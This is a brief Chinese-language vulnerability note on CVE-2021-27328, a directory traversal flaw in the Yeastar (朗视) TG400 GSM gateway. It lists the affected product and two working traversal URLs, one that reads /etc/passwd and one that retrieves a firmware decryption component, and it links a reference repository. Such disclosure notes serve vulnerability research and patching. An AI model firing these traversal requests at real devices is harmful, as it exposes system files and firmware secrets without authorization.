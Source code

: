 # 

# 朗视 TG400 GSM 网关目录遍历 CVE-2021-27328

## 漏洞描述

朗视 TG400 GSM 网关存在目录遍历 ，攻击者可以通过漏洞获取敏感信息

## 漏洞影响

```
朗视 TG400 GSM 网关
```

## 漏洞复现

暂无FOFA语句及固件设备复现

```plain
获取固件解密密码
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../bin/firmware_detect
/etc/passwd：
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../etc/passwd
```

## 参考文章

https://github.com/SQSamir/CVE-2021-27328
